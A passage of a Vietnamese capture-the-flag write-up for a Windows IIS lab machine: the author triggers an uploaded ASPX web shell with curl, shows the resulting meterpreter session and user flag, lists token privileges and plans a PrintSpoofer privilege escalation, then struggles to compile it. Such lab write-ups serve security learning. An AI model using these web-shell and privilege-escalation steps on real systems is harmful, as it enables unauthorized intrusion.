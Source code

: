 Sau đó tạo request đến web để mở file shell vừa up lên server. Tôi có 2 port tcp ở đây là 80 và 49663, sau khi thử cả 2 thì tôi có `curl http://10.10.189.211:49663/nt4wrksv/shell.aspx` 
```python
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > shell
Process 2116 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
Và tôi tìm được *user flag* trong user Bob
```python
c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,255,997,952 bytes free
```
## Privilege escalation
Tôi check thử xem có các đặc quyền nào không
```python
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```
Tôi để ý có `SeImpersonatePrivilege`, tôi sẽ dùng [payload](https://github.com/itm4n/PrintSpoofer.git) này để thử lấy quyền SYSTEM.

Đầu tiên tạo file .exe
```python
┌──(neo㉿kali)-[~/PrintSpoofer/PrintSpoofer]
└─$ sudo gcc PrintSpoofer.cpp -o PrintSpoofer.exe    
[sudo] password for neo: 
PrintSpoofer.cpp:3:10: fatal error: Windows.h: No such file or directory
    3 | #include <Windows.h>
      |          ^~~~~~~~~~~
compilation terminated.
```
Có vẻ như không chạy được bằng terminal, tôi phải tải vscode về để build file này. Nhưng tôi nhận ra để build được thì tôi lại phải tải Vs Studio và cài thêm C++, chỉ từng ấy thứ đã làm tôi muốn từ bỏ rồi. :sleepy: 
